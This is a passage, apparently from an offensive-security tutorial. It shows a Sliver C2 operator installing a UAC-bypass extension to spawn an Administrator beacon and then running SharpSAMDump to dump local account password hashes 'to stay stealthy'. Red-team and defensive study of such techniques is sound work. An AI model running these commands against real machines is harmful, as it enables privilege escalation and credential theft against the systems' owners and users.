 ```console
$ git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
$ cp UAC-BOF-Bonanza/CmstpElevatedCOM/ /home/s3rp3nt/.sliver-client/extensions/
```

The above UAC Bypass creates an elevated `ICMLuaUtil COM` object and calls its ShellExec function to execute the provided file on disk. If it is the first time using these custom extension, restart the Sliver server. We can now run the `CmstpElevatedCom` task from within our beacon that executes our loader.

![Sliver Privesc](/assets/images/maldev/sliver-privesc.png)

This will launch another beacon process running as Administrator. With these privileges we can try to dump all credentials from LSASS. To stay stealthy, let's use [SharpSAMDump](https://github.com/jojonas/SharpSAMDump).

```console
[server] sliver (ESSENTIAL_THEATER) > execute-assembly -i /home/s3rp3nt/Tools/Windows/SharpSAMDump.exe

[*] Tasked beacon ESSENTIAL_THEATER (c4af87ff)

[+] ESSENTIAL_THEATER completed task c4af87ff

[*] Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
John:1001:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

We managed to obtain the hashes of all accounts on the machine, including the administrator hash.
